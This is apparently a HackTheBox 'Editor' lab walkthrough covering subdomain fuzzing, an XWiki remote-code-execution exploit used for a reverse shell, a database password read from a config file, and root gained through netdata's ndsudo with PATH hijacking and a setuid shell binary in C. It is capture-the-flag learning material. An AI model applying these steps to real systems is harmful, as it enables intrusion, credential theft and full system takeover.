 # Editor - HackTheBox Machine

Difficulty: Easy

---

## Enumeration

Run masscan and nmap to discover the following open ports 22,80,8080.

80 is running a website editor.htb so let's add it to hosts. Checking around on this website there was nothing of value so I went straight to vhost fuzzing.

Command:
```bash
ffuf -u "http://editor.htb" -H "Host: FUZZ.editor.htb" -w /usr/share/wordlists/dirb/common.txt -fl 8
```
This returns a subdomain called `wiki.editor.htb`. Add this to hosts.

After this it was time to check around for CVEs. The version this was running was `XWiki Debian 15.10.8`. So googling around for CVEs we found this: `https://github.com/Infinit3i/CVE-2025-24893`.

---

## Initial Access

Use this exploit after setting the appropriate parameters to gain a shell. Since my friend was having some problems with this exploit (we ewwere doing this together) I'll explain how to use this.

1. Start a netcat listener on port 31337
2. Now, in the PoC we have to change a few settings. Change the target host to `wiki.editor.htb`, and change the local host to your HTB vpn IP.
3. Now in a separate shell, navigate to the PoC directory and start a python server on port 8080.
4. Run the `Reverse Shell` option on the PoC now and if you did it right, you should see a shell on the computer. Repeat this a couple times tho, since it could fail.

Ok, now that that's done, it's time to get user. Read /etc/passwd to find that the home user is oliver.

Now we can try and hunt config files or mysql or whatever to get any data on oliver. I used `linpeas.sh` to no avail. So I just checked config files. There I found the password to oliver.

```bash
cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
```

This gives the password `theEd1t0rTeam99`. Use this to ssh in as oliver.

---

## Privilege Escalation

Now oliver cannot run `sudo -l`. So we need to look further.

On enumerating with `netstat -nltp`, I found port 19999 running a service. So using the command:
```bash
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

I forwarded the port to my local machine, which showed that it was running a service called netdata. Opening this site revealed a red alert on the top of the screen, which on clicking reveals the version to be `v1.45.2`.

There is a privilege escalation exploit for this detailed [here](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93).

So here's what you do:
1. Create a binary like this:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
        setuid(0);
        setgid(0);
        system("/bin/sh");
        return 0;
}
```
2. Compile it using `gcc exploit.c -o exploit`.
3. Host this on your python server.
4. Then download it onto your target machine (use curl or wget).
5. As detailed in the link, first we will rename this file to nvme and then give it executable permissions. (I stored this file in /tmp/exploit)
6. Now do
```bash
export PATH=/tmp/exploit:$PATH
```
7. `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`

This should log you in as root.

--- 
